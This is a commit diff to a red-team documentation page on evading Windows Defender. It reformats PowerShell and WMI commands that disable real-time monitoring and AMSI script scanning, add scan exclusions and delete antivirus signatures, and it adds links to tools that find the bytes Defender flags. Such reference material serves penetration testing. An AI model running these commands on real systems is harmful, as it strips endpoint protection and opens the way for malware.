

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/evasion/windows-defenses.md, in a window 1280 px wide and 1400 px high, scrolled down 8602 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Windows Defender Antivirus - DefenderCheck

````diff
--- a/docs/redteam/evasion/windows-defenses.md
+++ b/docs/redteam/evasion/windows-defenses.md
@@ -321,29 +321,45 @@
 
 Also known as `Microsoft Defender`.
 
-```powershell
-# check status of Defender
-PS C:\> Get-MpComputerStatus
+* Check status of Defender
+    ```powershell
+    PS C:\> Get-MpComputerStatus
+    ```
 
-# disable scanning all downloaded files and attachments, disable AMSI (reactive)
-PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
-PS C:\> Set-MpPreference -DisableIOAVProtection $true
+* Disable scanning all downloaded files and attachments
+    ```powershell
+    PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
+    PS C:\> Set-MpPreference -DisableIOAVProtection $true
+    ```
 
-# disable AMSI (set to 0 to enable)
-PS C:\> Set-MpPreference -DisableScriptScanning 1
+* Disable AMSI (set to 0 to enable)
+    ```powershell
+    PS C:\> Set-MpPreference -DisableScriptScanning 1
+    ```
 
-# exclude a folder
-PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
-PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
-PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
+* Exclude a folder, a process from scanning
+    ```powershell
+    PS C:\> Add-MpPreference -ExclusionPath "C:\Temp"
+    PS C:\> Add-MpPreference -ExclusionPath "C:\Windows\Tasks"
+    PS C:\> Set-MpPreference -ExclusionProcess "word.exe", "vmwp.exe"
+    ```
 
-# exclude using wmi
-PS C:\> WMIC /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath="C:\Users\Public\wmic"
+* Exclude a folder using WMI
+    ```powershell
+    PS C:\> WMIC /Namespace:\\root\Microsoft\Windows\Defender class MSFT_MpPreference call Add ExclusionPath="C:\Users\Public\wmic"
+    ```
 
-# remove signatures (if Internet connection is present, they will be downloaded again):
-PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
-PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
-```
+* Remove signatures. **NOTE**: if Internet connection is present, they will be downloaded again.
+    ```powershell
+    PS > & "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
+    PS > & "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
+    ```
+
+Identify the exact bytes that are detected by Windows Defender Antivirus
+
+* [matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck) - Identifies the bytes that Microsoft Defender flags on
+* [gatariee/gocheck](https://github.com/gatariee/gocheck) - DefenderCheck but blazingly fast™
+
 
 
 ## Windows Defender Application Control
````
Also changed, not shown: docs/active-directory/ad-adds-enumerate.md (+1 -0 lines), docs/command-control/cobalt-strike.md (+19 -0 lines).
